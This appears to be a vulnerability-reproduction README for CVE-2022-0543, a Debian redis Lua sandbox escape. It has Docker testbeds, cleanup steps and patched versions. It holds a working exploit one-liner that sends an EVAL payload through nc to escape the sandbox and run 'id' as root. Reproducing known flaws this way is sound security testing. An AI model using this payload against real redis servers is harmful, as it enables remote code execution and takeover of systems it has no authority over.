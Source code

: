 # CVE-2022-0543
It was discovered, that redis, a persistent key-value database, due to a packaging issue, is prone to a (Debian-specific) Lua sandbox escape, which could result in remote code execution.

## Testbed stup
### Vulnerable
```sh
docker run --rm -p 6379:6379 --name rds-vuln -d vulhub/redis:5.0.7
```

### Safe
```sh
docker run --rm -p 6379:6379 --name rds-safe -d redis
```

## Reproduction steps
Test the vulnerability using the following command:
```sh
echo 'eval "local io_l = package.loadlib(\"/usr/lib/x86_64-linux-gnu/liblua5.1.so.0\", \"luaopen_io\"); local io = io_l(); local f = io.popen(\"id\", \"r\"); local res = f:read(\"*a\"); f:close(); return res" 0' | nc 127.0.0.1 6379
```

A vulnerable redis instance will return the output of the `id` command, executed as root:
```
$39
uid=0(root) gid=0(root) groups=0(root)
```

while a safe redis instance will return an error similar to the following:
```
-ERR user_script:1: Script attempted to access nonexistent global variable 'package' script: 59383731574f8ef9c055b3f4cf9cca078446f86d, on @user_script:1.
```

## Cleanup
Stop the running containers with the following command

```sh
docker stop rds-vuln rds-safe
```

## Vulnerable versions

- For the oldstable distribution (buster), this problem has been fixed in version `5:5.0.14-1+deb10u2`.
- For the stable distribution (bullseye), this problem has been fixed in version `5:6.0.16-1+deb11u2`.

## Reference
- https://www.cve.org/CVERecord?id=CVE-2022-0543
- https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
- https://lists.debian.org/debian-security-announce/2022/msg00048.html